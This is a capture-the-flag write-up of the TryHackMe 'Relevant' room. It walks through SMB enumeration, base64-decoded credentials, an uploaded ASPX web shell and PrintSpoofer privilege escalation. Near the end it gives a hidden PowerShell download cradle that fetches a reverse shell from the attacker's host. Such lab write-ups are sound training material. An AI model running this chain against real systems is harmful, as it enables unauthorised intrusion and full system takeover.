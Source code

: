 [<- home](/)

# Relevant [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.121.25
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

Some ports came up, one of which is `80`. Until this scan ends, let's browse the website:

```
firefox $targ3t
```

There's a windows server welcome screen. Let's run it through `feroxbuster`:

```
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

The `nmap` scan has ended while we were at it. The ports discovered are: 

```
80/tcp      http
135/tcp     msrpc
139/tcp     netbios-ssn
445/tcp     microsoft-ds
3389/tcp    ssl/ms-webt-server?
```

These ports don't seem to have valid ways in, any exploits associated with them or anything. Before I dive deeper, I'll run a full nmap scan for all ports, just in case.

```
nmap -p- $targ3t -oN nmap.full.scan -vv
```

New ports:

```
49663/tcp   unknown
49667/tcp   unknown
49669/tcp   unknown
```

Let's see what theese ports are:

```
nmap -sV -p 49663,49667,49669 $targ3t -oN nmap.service.scan -vv
```

We did find out somet things:

```
49663/tcp   http
49667/tcp   msrpc
49669/tcp   msrpc
```

Let's visit the `http` one:

```
firefox $targ3t:49663
```

This endpoint seems to be identical to the `80/tcp` port. 

<sup>_Assisted by a [write-up](https://madushan-perera.medium.com/tryhackme-relevant-walkthrough-6e7c83def069):_</sup> I didn't know of this flag `smbclient` had, but apparently we can check for shares on an SMB port:

```
smbclient -L $targ3t
```

One of the shares returned has Sharename `nt4wrksv`, so we're going to try to connect to it:

```
smbclient \\\\$targ3t\nt4wrksv
```

And it works, we got an anonymous login prompt.

```
ls
```

Shows there's a `password.txt` on here:

```
get passwords.txt
```

Let's quit the `smbclient` and see what's inside this file:

```
cat apsswords.txt
```

This looks like `base64` encoded strings:

```
sed -n 2p passwords.txt | base64 -d
```

The returned string is `Bob - !P@$$W0rD!123`. Let's check the next one:

```
sed -n 3p passwords.txt | base64 -d
```

The returned string: `Bill - Juw4nnaM4n420696969!$$$`. I don't remember any login interfaces, I wonder if these passwords are going to work on RDP:

```
xfreerdp /u:RELEVANT\Bob /p:'!P@$$W0rD!123' /v:$targ3t:3389 /cert:ignore
```

This command and many other variations (without Domain, without `/cert`) failed for different reasons, it gives a different error each time. Before trying something else, I'll enumerate SMB once again with `nmap`:

```
nmap --script vuln -p 445 $targ3t -oN nmap.vuln.scan
```

Two vulnerabilities were found: `CVE-2011-1002` which is a DoS and `CVE-2017-0143` which is a highly familiar ms17-010, a.k.a `eternal_blue`. 

```
searchsploit --cve 2017-0143
```

There is a python exploit for remote code execution:

```
searchsploit -m windows_x86-64/remote/41987.py
```

Tried running this script a number of times with different changes and fixes, even saw github repo it referenced but nothing worked. But I understand that the whole point of this is that I'm allowed to upload a file to the share and reference it in the browser. I'll try to upload a shell now:

I looked for an `aspx` shell and I found this [neat little thing](https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx) on GitHub.

```
smbclient \\\\$targ3t\\nt4wrksv
put shell.aspx
quit
curl http://$targ3t:49663/nt4wrksv/shell.aspx
```

And you get a webshell interface. On the right you can simply navigate to `C:\Users\Bob\Desktop\user.txt` and that's the first flag. `C:\Users\Administrator` is off limits, so we can try to see what privileges are exploitable. On the left type in the shell:

```
whoami \priv
```

This is what's returned:

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
w 
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I have escalated privileges on Windows through SeImpersonatePrivilege before and after a quick google search found several GitHub repositories that allow a file to be uploaded to the remote machine and exploit this Privilege. Only one had `.exe` executable released so I used that one:

```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
smbclient \\\\$targ3t\\nt4wrksv
put PrintSpoofer64.exe
quit
```

Now all we need to do is, serve a PowerShell reverse shell from a local python server and start a netcat listener alongside it:

```
python -m http.server 8080
nc -lvnp 9876
```

Download the following `ps1` reverse shell:

```
wget https://raw.githubusercontent.com/martinsohn/PowerShell-reverse-shell/refs/heads/main/powershell-reverse-shell.ps1
```

Make changes to this file, add your local IP address and Port instead of the ones in use. And now in our `aspx` web shell, let's execute the following command: 

```
PrintSpoofer64.exe -i -c "powershell -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://10.11.100.243:8080/powershell-reverse-shell.ps1')"
```

And in our netcat listener we get the root shell:

```
SHELL>
```

Let's find out who we are:

```
SHELL> whoami
nt authority\system
```

Which means we can navigate to the root flag:

```
Set-Location C:\Users\Administrator\Desktop
Get-ChildItem
```

There is a `root.txt` here:

```
Get-Content root.txt
```

That's our root flag!

<sub>_I avoided using `metasploit` on this machine and even though I had help from a write-up, I still fared pretty well, imho. I initially wanted to go full reverse shell mode and use WinPeas but thank god for PrintSpoofer._</sub>
